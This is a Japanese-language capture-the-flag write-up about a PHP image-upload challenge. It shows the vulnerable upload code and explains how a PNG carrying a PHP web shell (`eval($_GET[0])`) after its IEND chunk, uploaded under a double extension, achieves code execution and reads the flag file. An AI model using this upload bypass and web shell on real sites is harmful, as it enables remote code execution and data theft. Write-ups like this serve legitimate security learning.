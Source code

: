 ```php
                        throw new RuntimeException("Your memory isn't picturesque enough to be remembered.");
                    }
                    if (strpos($_FILES["imgfile"]["name"], $ext) === false) {
                        throw new RuntimeException("The name of your memory doesn't seem to match its content.");
                    }
                    $bname = basename($_FILES["imgfile"]["name"]);
                    $fname = sprintf("%s%s", sha1_file($_FILES["imgfile"]["tmp_name"]), substr($bname, strpos($bname, ".")));
                    if (!move_uploaded_file(
                        $_FILES['imgfile']['tmp_name'],
                        "./memories/" . $fname
                    )) {
                        throw new RuntimeException('Your memory failed to be remembered.');
                    }
                    http_response_code(301);
                    header("Location: /memories/" . $fname);
                } catch (RuntimeException $e) {
                    echo "<p>" . $e->getMessage() . "</p>";
                }
            }
        ?>
        <img src="crypt.jpg" height="300"/>
        <form method="POST" action="/" autocomplete="off" spellcheck="false" enctype="multipart/form-data">
            <p>Leave a memory:</p>
            <input type="file" id="imgfile" name="imgfile">
            <label for="imgfile" id="imglbl">Choose an image...</label>
            <input type="submit" value="Descend">
        </form>
        <script>
            imgfile.oninput = _ => {
                imgfile.classList.add("satisfied");
                imglbl.innerText = imgfile.files[0].name;
            };
        </script>
    </body>
</html>
```

JPEG、PNG、ビットマップのいずれかの画像をアップロードすると `/memories/(ファイルの SHA-1 ハッシュ).(拡張子)` に保存されるようです。

どうやら不正なファイルがアップロードされないように `finfo` によって拡張子とファイルの形式が一致しているか確認しているようです。が、このチェック時とは別に保存時に改めてファイル名から拡張子を取得しており、これは `substr($bname, strpos($bname, "."))` と最初の `.` 以降を切り取っているだけなので、`a.png.php` というファイル名でアップロードすれば `(ファイルの SHA-1 ハッシュ).png.php` として保存されてしまいます。

`finfo` は PNG として正しいものか、例えば IEND チャンク以降にデータがあるかといったことはチェックしていないので、いくらでもごまかすことができます。

まず適当な PNG ファイルを用意し、IEND チャンク以降に `<?php eval($_GET[0]); ?>` を挿入します。ファイル名を `a.png.php` としてアップロードし、`/memories/(省略).png.php?0=phpinfo();` にアクセスすると PHP のバージョン等の情報を表示させることができました。

実行させるコードを `readfile('/flag.txt');` に変えるとフラグが得られました。
